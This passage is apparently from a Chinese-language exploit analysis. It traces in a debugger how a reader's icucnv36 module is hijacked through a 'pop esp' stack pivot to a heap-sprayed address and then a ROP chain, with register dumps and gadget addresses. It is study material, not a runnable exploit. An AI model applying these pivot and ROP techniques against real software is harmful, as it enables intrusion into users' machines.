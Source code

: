 ```asm

```

```asm
leave等价于

mov esp,ebp
pop ebp
```

这样就将add ebp; leave 等价于 add esp了; 然后Ret = pop Eip;也就是实现了跳到了4a82a714这个地址;如下图

```asm
eax=0012e6d0 ebx=00000000 ecx=0012dd44 edx=00000000 esi=01efc87c edi=0012e718
eip=4a82a714 esp=0012e4e4 ebp=4c191dfd iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200202
icucnv36!icu_3_6::CharacterIterator::setToStart+8:
4a82a714 5c               pop     esp

```

这一句 pop esp 是个标准的stack pivot  如下图 将esp的值转换成了0x0C0C0C0C

```ASM
eax=0012e6d0 ebx=00000000 ecx=0012dd44 edx=00000000 esi=01efc87c edi=0012e718
eip=4a82a715 esp=0c0c0c0c ebp=4c191dfd iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200202
icucnv36!icu_3_6::CharacterIterator::setToStart+9:
4a82a715 c3               ret

0:000> dd 0c0c0c0c 
0c0c0c0c  4a8063a5 4a8a0000 4a802196 4a801f90
0c0c0c1c  4a84903c 4a80b692 4a801064 4a8522c8
0c0c0c2c  10000000 00000000 00000000 00000002
0c0c0c3c  00000102 00000000 4a8063a5 4a801064
0c0c0c4c  4a842db2 4a802ab1 00000008 4a80a8a6
0c0c0c5c  4a801f90 4a849038 4a80b692 4a801064
0c0c0c6c  ffffffff 00000000 00000040 00000000
0c0c0c7c  00010000 00000000 4a8063a5 4a801064


```

然后是下一句 这句Ret之后代码就跑到了4a8063a5了, 后面就是一堆的Rop的操作了  ;这个就不仔细的分析了;至于0x0C0C0C0C这个地址为什么有内容.以及内容的来源我们也不分析了,因为现在还不懂js的Heap SPARY,等后续的学习理解这个之后我们再补上其中的分析

```asm
eax=0012e6d0 ebx=00000000 ecx=0012dd44 edx=00000000 esi=01efc87c edi=0012e718
eip=4a82a715 esp=0c0c0c0c ebp=4c191dfd iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200202
icucnv36!icu_3_6::CharacterIterator::setToStart+9:
4a82a715 c3               ret

```

#### 3.漏洞小结
